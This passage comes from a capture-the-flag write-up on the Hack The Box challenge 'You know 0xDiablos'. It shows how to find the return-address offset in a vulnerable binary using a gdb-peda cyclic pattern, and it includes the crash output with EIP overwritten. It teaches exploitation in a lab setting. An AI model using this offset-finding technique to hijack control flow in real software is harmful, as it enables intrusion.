 Knowing that the function is vulnerable to buffer overflow, we can craft a special payload that change the return address to make it jump where we want.

In order to do this, the first thing we need to do is find the offset on the input data in order to write to the return address.

Using ghidra we can find easily the value of the return function as it will be the next instruction just after the invocation to our target function, so you will need to calculate the payload using those values.

You can do it in a less manual way using `gdb-peda`:

Knowing that the buffer has 180 chars, let's suppose that will 200 chars will overflow it, let's create a pattern of 200 chars:

`pattern_create 200 bof.txt`

and input it to the program:

`r < pattern.txt`

When the program crashes, we'll see the registers:
```bash
You know who are 0xDiablos: 
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.

[----------------------------------registers-----------------------------------]
EAX: 0xc9 
EBX: 0x76414158 ('XAAv')
ECX: 0xf7fa09b4 --> 0x0 
EDX: 0x1 
ESI: 0xffffcf94 --> 0xffffd165 ("/home/gal/workspace/hack-the-box/boxes/you-know-0x-diables/vuln")
EDI: 0xf7ffcb80 --> 0x0 
EBP: 0x41594141 ('AAYA')
ESP: 0xffffceb0 ("ZAAxAAyA")
EIP: 0x41417741 ('AwAA')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41417741
[------------------------------------stack-------------------------------------]
0000| 0xffffceb0 ("ZAAxAAyA")
0004| 0xffffceb4 ("AAyA")
0008| 0xffffceb8 --> 0xf7fbeb00 --> 0xf7d8fcd4 ("GCC_3.0")
0012| 0xffffcebc --> 0x3e8 
0016| 0xffffcec0 --> 0xffffcee0 --> 0x1 
0020| 0xffffcec4 --> 0xf7f9f000 --> 0x229dac 
0024| 0xffffcec8 --> 0xf7ffd020 --> 0xf7ffda40 --> 0x0 
0028| 0xffffcecc --> 0xf7d96519 --> 0x8310c483 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
0x41417741 in ?? ()
```
The interesting one is `EIP` as it is the register that points to the next instruction. Note that if you change the payload, the value of the EIP pointer will change as well.
